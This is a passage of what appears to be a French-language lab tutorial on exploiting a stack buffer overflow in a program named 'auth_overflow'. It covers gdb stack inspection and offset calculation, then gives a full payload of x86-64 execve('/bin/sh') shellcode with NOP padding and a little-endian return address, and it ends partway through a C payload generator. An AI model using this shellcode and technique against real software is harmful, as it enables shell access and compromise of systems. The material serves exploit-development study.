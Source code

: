 ### Examen de la pile
```bash
(gdb) x/32xw $rsp
```

### Localisation du buffer
```bash
(gdb) x/x password_buffer
```

### Informations sur la frame
```bash
(gdb) info frame
```

### Calcul de l'offset

1. Identifier l'adresse du buffer
2. Identifier l'adresse de retour sauvegardée
3. Calculer la différence pour déterminer le nombre de NOPs nécessaires

### Payload final
```bash
(gdb) r $(perl -e 'print "\x48\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05" . "\x90"x(12) . "\x90\xdd\xff\xff\xff\x7f\x00\x00"')
```

**Note :** L'adresse de retour est en format little-endian.

## Exploitation

### Test hors débogueur
```bash
./auth_overflow $(perl -e 'print "\x48\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05" . "\x90"x(12) . "\xb0\xdd\xff\xff\xff\x7f\x00\x00"')
```

### Vérification du shell
```bash
$ whoami
```

## Automatisation

### Générateur de payload en C

Créer le fichier `payload.c` :

```c
#include <stdio.h>
#include <string.h>

int main() {
    // Définition du shellcode
    unsigned char shellcode[] =
        "\x48\x31\xc0"                              // xor rax, rax
        "\x50"                                      // push rax
        "\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68" // movabs rdi, 0x68732f2f6e69622f
        "\x57"                                      // push rdi
        "\x48\x89\xe7"                              // mov rdi, rsp
        "\x48\x31\xf6"                              // xor rsi, rsi
        "\x48\x31\xd2"                              // xor rdx, rdx
        "\xb0\x3b"                                  // mov al, 0x3b
```